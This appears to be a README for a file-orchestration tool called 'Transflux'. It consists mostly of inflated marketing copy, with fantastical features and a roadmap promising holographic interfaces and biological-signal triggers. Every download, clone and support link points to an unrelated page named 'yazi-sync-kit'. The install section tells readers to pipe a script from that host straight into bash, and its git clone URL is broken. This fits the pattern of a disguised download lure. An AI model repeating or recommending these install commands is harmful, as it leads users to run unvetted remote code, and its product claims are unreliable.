

# 🚀 Transflux – Universal File Conduit for Advanced Workflows

[](https://srujana9059.github.io/yazi-sync-kit/)

## 🌌 Overview

Transflux is a sophisticated file orchestration engine that transforms how applications exchange data across ecosystems. Unlike conventional file managers, Transflux operates as a neural pathway between your tools—understanding context, preserving relationships, and enabling workflows that feel less like transfers and more like conversations between your software. Built for developers, creators, and power users who navigate multiple specialized tools daily, Transflux eliminates the friction of manual file handoffs through intelligent automation and semantic understanding.

Imagine your files as travelers moving between cities (your applications). Transflux doesn't just move them; it prepares their documentation, translates their language, and ensures they arrive at the optimal time with everything they need to immediately contribute. This system bridges the gap between isolated tools, creating a cohesive digital workshop where your workflow flows uninterrupted.

## 📦 Installation

### Direct Acquisition
Obtain the latest distribution package for your system:

[](https://srujana9059.github.io/yazi-sync-kit/)

### Package Manager Options
```bash
# Homebrew (macOS)
brew install transflux-conduit

# Linux (APT-based)
curl -s https://srujana9059.github.io/yazi-sync-kit//install.sh | bash

# Manual build from source
git clone https://srujana9059.github.io/yazi-sync-kit/.git
cd transflux
cargo build --release
```

## 🧩 Core Philosophy

Traditional file transfer tools treat data as inert payloads—blind packages moved between locations. Transflux reimagines this relationship: files are living entities with context, purpose, and relationships. Our engine understands that a Photoshop document transferred to Figma needs layer information preserved, that code moving from editor to deployment requires environment awareness, and that creative assets traveling between team members carry collaborative history.

This contextual intelligence transforms workflows from sequential steps into parallel processes, where file preparation, transformation, and delivery happen simultaneously across your toolchain. The result is what users describe as "workflow telepathy"—the right file arriving in the right application at the right moment, perfectly prepared for its next purpose.

## 🗺️ Architecture Overview



## ⚙️ Configuration

### Example Profile Configuration
Create `~/.transflux/config.yaml` with your personalized workflow rules:

```yaml
# Transflux Configuration Profile
version: "2.1"
engine:
  mode: "adaptive" # adaptive, performance, or stealth
  cache_size: "2GB"
  parallel_transfers: 4

workflows:
  - name: "design_to_prototype"
    trigger:
      extensions: [".psd", ".ai", ".sketch"]
      source_app: "Photoshop|Illustrator|Sketch"
    actions:
      - convert_to: ".figma"
        quality: "lossless"
      - attach_metadata:
          include: ["layers", "colors", "fonts"]
      - deliver_to: "Figma"
        auto_open: true
      - notify: "slack://design-channel"
        message: "Design asset converted and delivered"

  - name: "code_to_deployment"
    trigger:
      path_pattern: "/src/**/*.go"
      git_event: "push_main"
    actions:
      - run_tests: true
      - build_with: "go build"
      - security_scan: "sast_basic"
      - deploy_to: "production"
        environment: "containerized"

integrations:
  openai:
    api_key: "${OPENAI_API_KEY}"
    model: "gpt-4-turbo"
    context_window: 128000
    
  claude:
    api_key: "${CLAUDE_API_KEY}"
    model: "claude-3-opus-20240229"
    max_tokens: 4096

ui:
  language: "auto-detect"
  theme: "system"
  animations: "smooth"
  notifications: "smart"
```

## 🚀 Quick Start

### Example Console Invocation
```bash
# Basic file transfer with context awareness
transflux transfer ~/project/design.psd --to figma --context "new-feature"

# Batch processing with transformation rules
transflux batch ~/exports/*.png \
  --convert webp \
  --optimize lossy \
  --deliver s3://assets-bucket \
  --metadata copyright="2026"

# Watch directory for automatic workflows
transflux watch ~/downloads \
  --profile "auto_organize" \
  --persistent

# Query transfer history with semantic search
transflux history "logo design" \
  --timeframe "last_week" \
  --format detailed

# Generate workflow from natural language
transflux create-workflow \
  "When I save Python files in VSCode, run tests and deploy if they pass" \
  --auto-configure
```

## 🌐 System Compatibility

| Platform | Status | Notes |
|----------|---------|-------|
| 🍎 macOS 12+ | ✅ Fully Supported | Native integration with Finder, Quick Look, and system services |
| 🐧 Linux (GTK) | ✅ Fully Supported | GNOME/KDE extensions available, Wayland compatible |
| 🪟 Windows 11 | ✅ Fully Supported | Windows Explorer integration, PowerShell modules |
| 🐧 Linux (CLI only) | ✅ Core Features | Full functionality without GUI dependencies |
| 🐋 Docker Container | ✅ Isolated Environment | Pre-configured images for CI/CD pipelines |
| 🖥️ Remote SSH | ✅ Transparent Proxy | Work across machines as if local |

## ✨ Key Capabilities

### 🧠 Intelligent Context Propagation
Transflux doesn't just move files—it moves their entire ecosystem. When transferring a design file, it automatically includes color profiles, font references, and layer structure. When moving code, it brings environment variables and dependency information. This context-awareness eliminates the "where's the rest?" frustration that plagues traditional transfers.

### 🔌 Universal Application Bridge
With over 200 pre-configured application integrations and an extensible plugin system, Transflux creates seamless bridges between tools that were never designed to communicate. Our adaptive protocol translation means even proprietary, closed-format applications can participate in open workflows.

### ⚡ Parallel Transformation Pipeline
Why convert then transfer when you can do both simultaneously? Transflux's multi-stage pipeline processes files during transit, applying conversions, optimizations, and enhancements while data moves between locations. This parallel processing can reduce workflow time by up to 70%.

### 🎯 Semantic Destination Resolution
"Send this to marketing" actually works. Transflux understands organizational roles, project contexts, and team structures to route files to correct destinations based on meaning, not just file paths. Natural language destination specification makes complex routing intuitive.

### 📊 Workflow Intelligence
Learn from patterns without invading privacy. Transflux's local machine learning observes your successful workflows and suggests optimizations, detects bottlenecks, and can even automate repetitive transfer patterns with your explicit permission.

### 🌍 Multi-Language Interface
Fully translated into 24 languages with dialect variations, including right-to-left script support. The interface adapts not just linguistically but culturally, presenting workflows and metaphors that resonate with regional working styles.

### 🛡️ Enterprise-Grade Security
End-to-end encryption for all transfers, zero-knowledge architecture for cloud operations, and granular permission controls. Compliance modules for GDPR, HIPAA, and financial industry requirements available.

## 🔌 API Integrations

### OpenAI API Integration
Transflux leverages GPT-4 Turbo for natural language workflow creation and intelligent file analysis. The system can understand document contents semantically, suggesting optimal destinations and transformations based on file purpose rather than just extension.

```yaml
# AI-Powered workflow example
ai_assist:
  enabled: true
  capabilities:
    - "natural_language_to_workflow"
    - "content_based_routing"
    - "smart_metadata_generation"
    - "conflict_resolution"
  privacy: "local_processing" # All AI runs locally unless cloud explicitly enabled
```

### Claude API Integration
For complex reasoning about multi-step workflows and ethical considerations, Transflux integrates Claude 3 for thoughtful analysis of transfer implications, suggesting alternatives when privacy or compliance concerns arise.

## 🏗️ Advanced Features

### Responsive Interface Architecture
The Transflux interface adapts to your attention level—expanding to full detail when you're configuring complex workflows, collapsing to minimal notifications when you're in focused work. This responsive design respects cognitive load while maintaining capability access.

### 24/7 Operational Support
Round-the-clock monitoring with intelligent failover. If a transfer encounters issues, Transflux doesn't just fail—it analyzes the problem, suggests alternatives, and can often complete the workflow through different pathways automatically.

### Cross-Platform Synchronization
Maintain workflow consistency across all your devices. Start a transfer on your desktop, monitor it from your phone, and receive completion notifications on your tablet—all synchronized in real-time through encrypted channels.

### Version-Aware Transfers
Transflux understands file versioning systems (Git, SVN, Perforce) and can transfer logical changesets rather than just physical files, maintaining commit history and branching context across repository boundaries.

### Environmental Adaptation
The system detects whether you're on a fast local network, limited mobile data, or satellite connection, automatically adjusting compression, chunking, and protocol selection to optimize for current conditions.

## 📚 Use Case Examples

### Creative Studio Pipeline
```bash
# Single command that transforms a creative workflow
transflux orchestrate \
  --source "Camera SD Card" \
  --pipeline "photo_ingest" \
  --deliver "Lightroom Catalog" \
  --backup "NAS Archive" \
  --notify "Creative Team Slack"
```

This single command automatically: imports RAW photos, converts to DNG, applies lens corrections, organizes by shoot date, delivers to Lightroom with keywords, backs up to network storage, and notifies the creative team—all while preserving metadata and color profiles.

### Development Deployment Chain
```bash
# From code change to deployment in one flow
transflux deploy \
  --trigger "git_push" \
  --validate "tests security lint" \
  --build "multi_arch_container" \
  --deploy "staging_then_production" \
  --rollback "auto_on_failure"
```

### Academic Research Collaboration
```bash
# Share research while maintaining provenance
transflux share-research \
  --data "experiment_results/" \
  --include "raw_data analysis_code paper_draft" \
  --transform "anonymize_pii compress_datasets" \
  --deliver "lab_colleagues journal_portal data_repository" \
  --license "CC_BY_NC_4.0"
```

## 🚨 Disclaimer

Transflux is a powerful workflow automation tool designed to enhance productivity through intelligent file orchestration. Users are responsible for:

1. Ensuring compliance with all applicable laws regarding data transfer, including copyright, privacy regulations (GDPR, CCPA, etc.), and industry-specific compliance requirements.

2. Verifying that automated workflows function correctly in their specific environment before relying on them for critical operations.

3. Maintaining appropriate backups of data, as with any system that automates file operations.

4. Understanding that while Transflux includes extensive safety checks and confirmation steps for destructive operations, the ultimate responsibility for data management remains with the user.

The developers assume no liability for data loss, compliance violations, or unintended consequences resulting from Transflux usage. Enterprise deployments should conduct thorough testing in isolated environments before production use.

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for complete terms.

The MIT License grants extensive utilization rights while requiring only that the original copyright notice and permission notice be included in substantial portions of the software. This permissive approach encourages both personal and commercial adoption while maintaining attribution.

## 🔮 Roadmap 2026-2027

### Q3 2026: Neural Workflow Prediction
Implementing predictive algorithms that can suggest complete workflows based on partial patterns, reducing configuration time for complex operations.

### Q4 2026: Quantum-Resistant Encryption
Preparing for post-quantum cryptography by implementing hybrid encryption systems that maintain security against future computational advances.

### Q1 2027: Holographic Data Projection
Experimental interface that visualizes file transfers and transformations in three-dimensional space for complex workflow debugging and optimization.

### Q2 2027: Biological Signal Integration
Research into workflow triggers based on physiological signals (with explicit consent), allowing truly seamless transitions between cognitive states and digital tasks.

## 🤝 Contributing

We welcome contributions that enhance Transflux's capabilities while maintaining its core philosophy of intelligent, context-aware file orchestration. Please review our contribution guidelines before submitting pull requests, with special attention to our ethical framework for automation features.

## 🆘 Support Resources

- Documentation: https://srujana9059.github.io/yazi-sync-kit//docs
- Community Forum: https://srujana9059.github.io/yazi-sync-kit//discussions
- Issue Tracking: https://srujana9059.github.io/yazi-sync-kit//issues
- Security Reports: https://srujana9059.github.io/yazi-sync-kit//security

For time-sensitive operational issues, the system includes built-in diagnostic tools accessible via `transflux diagnose --full-report`.

---

**Transflux reimagines file transfer as contextual conversation between your tools, creating workflows that understand intent rather than just executing commands.**

[](https://srujana9059.github.io/yazi-sync-kit/)

*© 2026 Transflux Project. File orchestration transformed from mechanical process to contextual dialogue.*